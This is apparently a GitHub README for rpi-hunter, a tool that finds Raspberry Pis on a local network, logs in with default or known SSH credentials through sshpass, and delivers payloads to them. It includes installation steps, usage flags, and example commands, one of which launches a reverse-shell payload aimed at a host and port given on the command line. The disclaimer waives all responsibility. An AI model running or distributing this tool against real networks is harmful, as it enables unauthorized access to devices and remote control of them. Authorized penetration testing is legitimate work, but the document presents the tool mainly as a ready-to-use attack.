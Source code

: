 # rpi-hunter
Auto exploit LAN raspberry pi's
Automate discovering and dropping payloads on LAN Raspberry Pi's via ssh
Or, the honest title: Automating sshpass for command delivery.


![alt text](https://github.com/BusesCanFly/rpi-hunter/blob/master/screenshot.png "Who doesn't love ASCII art?")

rpi-hunter is  useful when there are multiple Raspberry Pi's on your LAN with default or known credentials, in order to automate sending commands/payloads to them.

# GUIDE:

## Installation

1. Install dependencies: `sudo pip install -U argparse termcolor` and `sudo apt -y install arp-scan tshark sshpass`
2. Download rpi-hunter: `git clone https://github.com/BusesCanFly/rpi-hunter`
3. Navigate to rpi-hunter: `cd ./rpi-hunter`
4. Make rpi-hunter.py executable: `chmod +x rpi-hunter.py`
* One line variant: `sudo pip install -U argparse termcolor && sudo apt -y install arp-scan tshark sshpass && git clone https://github.com/BusesCanFly/rpi-hunter && cd ./rpi-hunter && chmod +x rpi-hunter.py`

## Usage
```
usage: rpi-hunter.py [-h] [--list] [--no-scan] [-r IP_RANGE] [-f IP_LIST]
                     [-c CREDS] [--payload PAYLOAD] [-H HOST] [-P PORT]
                     [--safe] [-q]

optional arguments:
  -h, --help         show this help message and exit
  --list             List available payloads
  --no-scan          Disable ARP scanning
  -r IP_RANGE        IP range to scan
  -f IP_LIST         IP list to use (Default ./scan/RPI_list)
  -u UNAME           Username to use when ssh'ing
  -c CREDS           Password to use when ssh'ing
  --payload PAYLOAD  (Name of, or raw) Payload [ex. reverse_shell or 'whoami']
  -H HOST            (If using reverse_shell payload) Host for reverse shell
  -P PORT            (If using reverse_shell payload) Port for reverse shell
  --safe             Print sshpass command, but don't execute it
  -q                 Don't print banner
```

* Run `./rpi-hunter.py --list` to see avalible payloads.
* Payloads can be specified by the payload name from `--list` or as raw input
    * ex. `--payload reverse_shell` or `--payload [your cli command here]`

* Example usage: 
	* `./rpi-hunter.py -r 192.168.0.0/16 --payload reverse_shell -H 127.0.0.1 -P 1337`
	* `./rpi-hunter.py -r 192.168.2.0/16 -c lamepassword --payload "ls -lah"`

## Disclaimer
## The standard internet fun disclaimer applies. Don't commit crimes, be responsible.

## I am in no way responsible for anything and everything you do with rpi-hunter.

